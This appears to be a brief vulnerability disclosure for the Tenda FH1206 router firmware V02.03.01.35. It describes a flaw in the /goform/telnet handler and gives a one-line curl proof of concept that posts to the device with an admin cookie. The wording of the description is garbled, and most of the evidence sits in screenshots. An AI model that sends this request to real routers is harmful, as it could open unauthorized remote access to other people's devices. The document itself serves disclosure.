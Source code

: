 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

An issue was discovered in FH1206 V02.03.01.35 devices. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![image-20240731144148125](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731144148125.png)

## POC

```python
curl -i -X POST http://192.168.84.101/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![image-20240802225428603](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240802225428603.png)